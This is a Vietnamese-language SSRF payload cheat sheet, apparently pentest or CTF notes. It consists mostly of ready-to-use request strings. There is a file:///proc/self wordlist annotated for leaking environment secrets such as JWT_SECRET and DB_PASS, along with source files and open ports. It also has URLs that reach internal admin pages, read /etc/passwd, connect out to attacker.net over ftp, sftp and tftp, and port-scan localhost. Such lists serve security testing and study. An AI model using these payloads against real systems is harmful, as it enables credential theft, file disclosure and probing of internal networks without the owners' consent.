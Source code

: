 # Wordlist SSRF với /proc/self
```
image=file:///proc/self/cmdline&size=large
image=file:///proc/self/environ&size=large
image=file:///proc/self/cwd/&size=large
image=file:///proc/self/cwd/package.json&size=large
image=file:///proc/self/cwd/src/index.js&size=large
image=file:///proc/self/cwd/src/routes/index.js&size=large
image=file:///proc/self/cwd/src/routes/v2/orders.js&size=large
image=file:///proc/self/fd/0&size=large
image=file:///proc/self/fd/1&size=large
image=file:///proc/self/fd/2&size=large
image=file:///proc/self/maps&size=large
image=file:///proc/self/mounts&size=large
image=file:///proc/self/status&size=large
image=file:///proc/self/net/tcp&size=large
image=file:///proc/self/net/tcp6&size=large
image=file:///proc/self/net/udp&size=large
image=file:///proc/self/net/udp6&size=large

```
📌 Ý nghĩa từng payload

cmdline → biết app start bằng file nào (node /usr/app/src/index.js).

environ → lấy ENV (JWT_SECRET, DB_PASS, có thể cả FLAG).

cwd → current working dir (truy cập source code trực tiếp).

fd/0, fd/1, fd/2 → stdin, stdout, stderr của process.

maps, mounts, status → thông tin tiến trình & hệ thống (dò cấu hình).

net/tcp, udp → cổng đang mở (xác định PORT để SSRF gọi nội bộ).

# Truy cập các trang nội bộ

Một số cách khai thác phổ biến để truy cập vào các trang nội bộ bao gồm:
```
https://target.com/page?url=http://127.0.0.1/admin
https://target.com/page?url=http://127.0.0.1/phpmyadmin
https://target.com/page?url=http://127.0.0.1/pgadmin
https://target.com/page?url=http://127.0.0.1/any_interesting_page
```
# Truy cập các tệp nội bộ thông qua lược đồ URL

Tấn công vào lược đồ URL cho phép kẻ tấn công lấy tệp từ máy chủ và tấn công các dịch vụ nội bộ.

Một số cách khai thác phổ biến để truy cập các tệp tin nội bộ bao gồm:
```
https://target.com/page?url=file://etc/passwd
https://target.com/page?url=file:///etc/passwd
https://target.com/page?url=file:////etc/passwd
https://target.com/page?url=file://path/to/file
```
# Truy cập Dịch vụ Nội bộ thông qua Sơ đồ URL

Bạn có thể sử dụng lược đồ URL để kết nối với một số dịch vụ nhất định.

Đối với giao thức truyền tệp:

```
https://target.com/page?url=ftp://attacker.net:11211/
https://target.com/page?url=sftp://attacker.net:11111/
https://target.com/page?url=tftp://attacker.net:123456/TESTUDP
```
#2. XSPA—Quét cổng trên máy chủ
Tấn công Cổng Chéo Trang (XSPA) là một loại SSRF trong đó kẻ tấn công có thể quét máy chủ để tìm các cổng đang mở. Điều này thường được thực hiện bằng cách sử dụng giao diện vòng lặp trên máy chủ (127.0.0.1 hoặc localhost) kết hợp với cổng đang được quét (21, 22, 25…).

```
https://target.com/page?url=http://localhost:22/
https://target.com/page?url=http://127.0.0.1:25/
https://target.com/page?url=http://127.0.0.1:3389/
https://target.com/page?url=http://localhost:PORT/
```